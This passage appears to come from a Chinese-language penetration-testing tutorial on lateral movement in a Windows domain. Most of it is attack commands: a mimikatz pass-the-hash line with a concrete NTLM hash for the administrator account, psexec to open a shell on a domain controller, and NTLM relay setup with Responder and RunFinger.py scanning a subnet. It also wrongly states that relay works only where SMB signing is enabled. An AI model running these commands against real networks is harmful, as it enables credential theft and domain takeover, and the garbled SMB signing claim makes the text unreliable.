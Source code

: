 **②利用拿得到的hash来连接域内其他目标机器**  

```
imikatz.exe "privilege::debug" "sekurlsa::pth /domain:safe-duck /user:administrator /ntlm:f5082729365bda3f34f598f99b33b242" exit
```

```
   

```

**③得到具有用户身份的cmd shell，执行命令：**

```
`dir \\WIN-6JM3ECTM2CO.safe-duck.com\c$``# 调用cmd``psexec.exe \\域控IP cmd.exe`
```

* * *

  

**中继hash攻击**  

---------------

在hash无法解密的情况下也可以通过中继NTLMv2哈希的方法来获取网络中机器的shell访问权限，获取hash值可以帮助攻击者获取shell访问权限。  

```
`vi /usr/share/responder/Responder.conf` `#将SMB和HTTP的值改为off。这样responder就不会获取哈希值，而是Multirelay.py来完成这一任务`
```

  

**1\. 网段扫描**  

```


因为只能对SMB signing设置为True的机器发起攻击。运行RunFinger.py脚本来识别将SMB  
signing设置为True的网络中的HOST机器。RunFinger.py脚本会预测IP的范围来检查现有的HOSTS的SMB  
signing是否启用。运行RunFinger.py脚本的命令为：


```

```
python RunFinger.py -i 192.168.1.0/24
```

  

**2.获取可攻击的主机(true)**

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

**3.开启responder监听**

```
responder -I eth0
```
